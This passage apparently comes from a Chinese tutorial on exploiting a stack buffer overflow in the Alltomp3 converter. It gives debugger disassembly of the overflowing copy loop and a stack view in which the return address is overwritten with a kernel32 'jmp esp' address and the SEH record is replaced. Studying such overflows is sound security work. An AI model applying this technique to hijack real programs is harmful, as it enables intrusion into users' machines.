004ACCAB  |.  B9 04000000   |mov ecx,0x4
004ACCB0  |.  8B43 60       |mov eax,dword ptr ds:[ebx+0x60]
004ACCB3  |.  8B38          |mov edi,dword ptr ds:[eax]
004ACCB5  |.  FF57 0C       |call dword ptr ds:[edi+0xC]
004ACCB8  |.  8A83 B0400000 |mov al,byte ptr ds:[ebx+0x40B0]
004ACCBE  |.  2C 01         |sub al,0x1
004ACCC0  |.  74 06         |je short Alltomp3.004ACCC8
004ACCC2  |.  04 FC         |add al,0xFC
004ACCC4  |.  2C 03         |sub al,0x3
004ACCC6  |.  73 11         |jnb short Alltomp3.004ACCD9
004ACCC8  |>  8D53 38       |lea edx,dword ptr ds:[ebx+0x38]
004ACCCB  |.  8D4434 0C     |lea eax,dword ptr ss:[esp+esi+0xC]
004ACCCF  |.  B9 04000000   |mov ecx,0x4
004ACCD4  |.  E8 0B60F5FF   |call Alltomp3.00402CE4
004ACCD9  |>  83C6 04       |add esi,0x4
004ACCDC  |.  66:89B3 5E410>|mov word ptr ds:[ebx+0x415E],si
004ACCE3  |.  EB 3D         |jmp short Alltomp3.004ACD22
004ACCE5  |>  807B 65 00    |cmp byte ptr ds:[ebx+0x65],0x0          ;  Default case of switch 004AC7DF
004ACCE9  |.  74 24         |je short Alltomp3.004ACD0F
004ACCEB  |.  8B43 60       |mov eax,dword ptr ds:[ebx+0x60]
004ACCEE  |.  8B10          |mov edx,dword ptr ds:[eax]
004ACCF0  |.  FF12          |call dword ptr ds:[edx]
004ACCF2  |.  52            |push edx
004ACCF3  |.  50            |push eax
004ACCF4  |.  8B43 60       |mov eax,dword ptr ds:[ebx+0x60]
004ACCF7  |.  E8 2840F7FF   |call Alltomp3.00420D24
004ACCFC  |.  3B5424 04     |cmp edx,dword ptr ss:[esp+0x4]
004ACD00  |.  75 09         |jnz short Alltomp3.004ACD0B
004ACD02  |.  3B0424        |cmp eax,dword ptr ss:[esp]
004ACD05  |.  5A            |pop edx
004ACD06  |.  58            |pop eax
004ACD07  |.  72 06         |jb short Alltomp3.004ACD0F
004ACD09  |.  EB 10         |jmp short Alltomp3.004ACD1B
004ACD0B  |>  5A            |pop edx
004ACD0C  |.  58            |pop eax
004ACD0D  |.  7D 0C         |jge short Alltomp3.004ACD1B
004ACD0F  |>  81FE 00200000 |cmp esi,0x2000
004ACD15  |.^ 0F8C C2FAFFFF \\jl Alltomp3.004AC7DD
004ACD1B  |>  C683 B0400000>mov byte ptr ds:[ebx+0x40B0],0x0         ;  跳出循环拷贝 准备推出
004ACD22  |>  81C4 1C100000 add esp,0x101C                           ;  Default case of switch 004AC94A
004ACD28  |.  5D            pop ebp
004ACD29  |.  5F            pop edi
004ACD2A  |.  5E            pop esi
004ACD2B  |.  5B            pop ebx
004ACD2C  \.  C3            retn
```


取消所有断点，然后在函数的结尾 `0x004ACD2C` 下断点 `F9` 运行

看堆栈

`0012F8C4`   `7C86467B`  `kernel32.7C86467B`

`0012F8C8`   `E983C929`  指向下一个 `SEH` 记录的指针

`0012F8CC`   `FFFFE8CF`  `SE` 处理程序

这里的 `7C86467B` 也就是 `jmp esp` 的地址
